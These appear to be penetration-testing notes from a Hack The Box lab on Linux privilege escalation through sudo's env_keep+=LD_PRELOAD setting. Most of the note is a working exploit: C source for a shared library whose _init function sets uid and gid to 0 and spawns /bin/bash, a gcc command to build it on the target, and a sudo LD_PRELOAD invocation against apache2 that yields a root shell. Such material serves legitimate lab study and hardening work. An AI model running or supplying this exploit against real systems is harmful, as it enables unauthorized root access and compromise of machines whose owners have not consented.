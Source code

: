 ### LD_PRELOAD
```
htb_student@NIX02:~$ sudo -l

Matching Defaults entries for daniel.carter on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

ldd /bin/ls

```

### Shared Library compile exploit
Step 1: Create .so file from .c
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
Step 2: Compile .so file on target if possible
```
gcc -fPIC -shared -o root.so root.c -nostartfiles
```
STep 3: Execute LD_PRELOAD exploit
```
sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart
```
